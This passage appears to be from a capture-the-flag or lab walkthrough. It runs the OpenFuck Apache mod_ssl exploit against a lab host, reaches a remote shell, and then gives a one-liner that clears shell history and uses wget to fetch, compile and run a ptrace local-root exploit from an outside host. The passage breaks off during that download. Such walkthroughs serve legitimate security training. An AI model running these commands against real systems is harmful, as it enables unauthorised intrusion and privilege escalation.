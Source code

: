 To compile it you'll both need to download **libssl-dev** and [update the
script.](http://paulsec.github.io/blog/2014/04/14/updating-openfuck-exploit/)  
  
Running it without any arguments shows us a long list of valid OS-Apache
version combinations. The closest one to our system are the following:  

  * 0x6a - RedHat Linux 7.2 (apache-1.3.20-16)1
  * 0x6b - RedHat Linux 7.2 (apache-1.3.20-16)2 

  

    
    
    root@kali:~# ./a.out 0x6a 192.168.1.104 -c 50  
      
    *******************************************************************  
    * OpenFuck v3.0.32-root priv8 by SPABAM based on openssl-too-open *  
    *******************************************************************  
    * by SPABAM    with code of Spabam - LSD-pl - SolarEclipse - CORE *  
    * #hackarena  irc.brasnet.org                                     *  
    * TNX Xanthic USG #SilverLords #BloodBR #isotk #highsecure #uname *  
    * #ION #delirium #nitr0x #coder #root #endiabrad0s #NHC #TechTeam *  
    * #pinchadoresweb HiTechHate DigitalWrapperz P()W GAT ButtP!rateZ *  
    *******************************************************************  
      
    Connection... 50 of 50  
    Establishing SSL connection  
    cipher: 0x4043808c   ciphers: 0x80f81e8  
    Ready to send shellcode  
    Spawning shell...  
    Good Bye!  
    root@kali:~# ./a.out 0x6b 192.168.1.104 -c 50  
      
    *******************************************************************  
    * OpenFuck v3.0.32-root priv8 by SPABAM based on openssl-too-open *  
    *******************************************************************  
    * by SPABAM    with code of Spabam - LSD-pl - SolarEclipse - CORE *  
    * #hackarena  irc.brasnet.org                                     *  
    * TNX Xanthic USG #SilverLords #BloodBR #isotk #highsecure #uname *  
    * #ION #delirium #nitr0x #coder #root #endiabrad0s #NHC #TechTeam *  
    * #pinchadoresweb HiTechHate DigitalWrapperz P()W GAT ButtP!rateZ *  
    *******************************************************************  
      
    Connection... 50 of 50  
    Establishing SSL connection  
    cipher: 0x4043808c   ciphers: 0x80f81e8  
    Ready to send shellcode  
    Spawning shell...  
    bash: no job control in this shell  
    bash-2.05$   
    bash-2.05$ unset HISTFILE; cd /tmp; wget http://dl.packetstormsecurity.net/0304-exploits/ptrace-kmod.c; gcc -o p ptrace-kmod.c; rm ptrace-kmod.c; ./p;   
    --01:03:53--  http://dl.packetstormsecurity.net/0304-exploits/ptrace-kmod.c  
               => `ptrace-kmod.c'  
    Connecting to dl.packetstormsecurity.net:80... connected!  
    HTTP request sent, awaiting response... 301 Moved Permanently  
    Location: https://dl.packetstormsecurity.net/0304-exploits/ptrace-kmod.c [following]  
    --01:03:53--  https://dl.packetstormsecurity.net/0304-exploits/ptrace-kmod.c  
               => `ptrace-kmod.c'  
    Connecting to dl.packetstormsecurity.net:443... connected!  
    HTTP request sent, awaiting response... 200 OK  
    Length: 3,921 [text/x-csrc]  
      